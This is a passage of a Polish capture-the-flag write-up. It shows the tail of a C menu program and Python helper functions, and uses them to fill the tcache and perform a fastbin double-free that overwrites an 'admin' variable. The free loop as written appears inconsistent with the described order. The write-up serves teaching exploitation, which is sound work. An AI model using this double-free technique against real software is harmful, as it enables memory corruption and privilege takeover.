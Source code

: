```c
		break;
            case 4:
                flag = 0;
            default:
                break;
        }
    }
}

int main() {
    main_loop();
    return 0;
}
```

Moją strategią jest wypełnić `tcache`, a następnie wykonać double-free.
Definiuję dwie funkcje, które mi w tym pomogą.
```python
def malloc(name):
    p.sendlineafter('>> ','1 '+name)

def free(id):
    p.sendlineafter('>> ', '2 '+str(id))
```


Alokuje 9 userów, a następnie zwalniam pamięć powiązaną z nimi w kolejności rosnącej.
```
tcache
p1->p2->p3->p4->p5->p6->p7
fastbin
p8->p9
```
```python
for i in range(8):
    malloc('a') #tcache

malloc('a') #p8
malloc('a') #p9

for i in range(9):
    free(i-1)

free(8)
free(9)

```


Teraz check pozwoli na ponowne zwolnienie p8.

```
tcache
p1->p2->p3->p4->p5->p6->p7
fastbin
p8->p9->p8
```
W tym momencie wykonałem atak typu double-free i mogą zapisać dowolną treść w dowolne miejsce.
Oczywiście w tym przypadku moim celem jest zmienna `admin`. Wyszukuję jej adres w gdb.
